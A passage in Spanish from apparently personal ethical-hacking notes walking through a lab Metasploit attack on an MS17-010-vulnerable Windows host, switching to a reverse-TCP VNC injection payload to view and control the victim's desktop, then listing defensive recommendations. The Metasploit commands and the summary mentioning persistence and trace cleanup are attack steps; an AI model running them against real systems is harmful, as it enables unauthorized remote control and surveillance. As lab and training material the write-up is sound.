Además de Meterpreter, podemos usar otros payloads. Uno interesante es vncinject, que nos da acceso visual directo al escritorio de la víctima.

---

## 📋 Listar Payloads Compatibles

Para ver todos los payloads disponibles para nuestro exploit:

```bash
show payloads
```

O simplemente escribe set payload y pulsa TAB dos veces. Metasploit mostrará solo los payloads compatibles por tamaño con el exploit actual.

---

## 🔄 Cambiando al Payload VNCInject

Cargamos el payload de inyección VNC:

```bash
set payload windows/x64/vncinject/reverse_tcp
```



---

## ⚙️ Configuración de Opciones

Verificamos y configuramos las opciones necesarias:

```bash
show options
```



Configuramos RHOSTS si no está definido:

```bash
set RHOSTS 10.0.0.12
```

---

## 🚀 Ejecución del Exploit con VNCInject

Lanzamos el ataque:

```bash
exploit
```





VNCInject inyecta un servidor VNC en memoria en el sistema comprometido, abriendo una sesión visual remota que permite:

* Ver en tiempo real el escritorio de la víctima
* Interactuar con el ratón y teclado
* Observar las acciones del usuario
* Capturar información sensible visualmente

> [!important] Nota Importante
> ⚠️ Consideraciones importantes sobre VNCInject:
> Puede requerir la desactivación del firewall en el sistema objetivo
> Es más "ruidoso" que Meterpreter y más fácil de detectar
> Útil para demostraciones visuales de impacto en auditorías
> Consume más ancho de banda que una sesión Meterpreter

---

## 🎓 Conclusiones y Recomendaciones

---

## ✅ Resumen de la Auditoría

En esta Prueba de Concepto hemos demostrado exitosamente:

* ✓ Enumeración de red y descubrimiento de hosts
* ✓ Escaneo de puertos y detección de servicios
* ✓ Identificación de vulnerabilidades críticas (MS17-010)
* ✓ Explotación remota sin autenticación
* ✓ Escalada de privilegios a SYSTEM
* ✓ Post-explotación y extracción de información sensible
* ✓ Persistencia y control remoto del sistema
* ✓ Limpieza de rastros

---

## 🛡️ Recomendaciones de Seguridad

Para protegerse contra esta vulnerabilidad y similares:

* Aplicar inmediatamente el parche MS17-010 de Microsoft
* Implementar un programa de gestión de parches regular
* Considerar actualizar a versiones más modernas de Windows Server

* Deshabilitar SMBv1 en todos los sistemas (es un protocolo obsoleto)
* Usar SMBv2 o SMBv3 que son más seguros
* Comando PowerShell: Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol

* Implementar segmentación de red (VLANs)
* Configurar firewalls para bloquear puertos SMB (135, 139, 445) desde redes no confiables
* Aplicar el principio de "mínimo privilegio" en las políticas de red

* Implementar IDS/IPS para detectar intentos de explotación
* Revisar logs regularmente en busca de actividad sospechosa
* Usar soluciones EDR (Endpoint Detection and Response)

* Realizar auditorías de seguridad regulares
* Ejecutar pruebas de penetración autorizadas
* Mantener inventario actualizado de sistemas y versiones

---

> [!note] 🔗 Enlaces Relacionados
> * 💻 [[02 - MODULOS/Hacking Ético/03 - Máquinas Hackeables (VMs)|Volver al Catálogo de Máquinas Hackeables]]
> * 🌐 [[02 - MODULOS/Hacking Ético/01 - Web Fuzzing|Guía de Web Fuzzing]]
> * 🔍 [[02 - MODULOS/Hacking Ético/02 - Reconocimiento Bug Bounty|Metodología de Reconocimiento]]
